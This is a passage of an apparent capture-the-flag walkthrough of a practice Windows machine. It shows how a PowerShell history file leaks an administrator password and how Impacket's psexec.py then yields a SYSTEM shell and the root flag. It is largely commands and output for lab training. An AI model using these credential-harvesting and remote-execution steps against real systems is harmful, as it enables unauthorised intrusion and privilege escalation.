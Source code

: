 	-a-hs-        1/19/2020   3:10 PM         524288 NTUSER.DAT{9a46ae7e-3b4f-11ea-84f6-005056b44214}.TMContainer0000000000
							 0000000001.regtrans-ms                                                
	-a-hs-        1/19/2020   3:10 PM         524288 NTUSER.DAT{9a46ae7e-3b4f-11ea-84f6-005056b44214}.TMContainer0000000000
							 0000000002.regtrans-ms                                                
	---hs-        1/19/2020   3:10 PM             20 ntuser.ini                                                            



// continued digging we found file called 'ConsoleHost_history.txt' in '\Users\sql_svc\AppData\Roaming\Microsoft\windows\PowerShell\PSReadline'


	# pwd

	Path                                                                    
	----                                                                    
	C:\Users\sql_svc\AppData\Roaming\Microsoft\windows\PowerShell\PSReadline


	# cat ConsoleHost_history.txt 
	net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!



// the file contains administrator credentials !!!, for admin shell we can use another Impacket's tool called 'psexec.py', that is a telnet-replacement that lets you execute processes on remote system connection conditions are that shell will spawn for specified user only if 'ADMIN$' and 'C$' shares are writable.


	$ cp /usr/share/doc/python3-impacket/examples/psexec.py psexec.py
-----

	$ python3 psexec.py administrator@10.10.10.27
	Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

	Password:
	[*] Requesting shares on 10.10.10.27.....
	[*] Found writable share ADMIN$
	[*] Uploading file AnxLzRaQ.exe
	[*] Opening SVCManager on 10.10.10.27.....
	[*] Creating service Lfzs on 10.10.10.27.....
	[*] Starting service Lfzs.....
	[!] Press help for extra shell commands
	Microsoft Windows [Version 10.0.17763.107]
	(c) 2018 Microsoft Corporation. All rights reserved.

	C:\Windows\system32>whoami
	nt authority\system


// we have Administrator flag !


	C:\Users\Administrator\Desktop>type root.txt
	b91cce.................



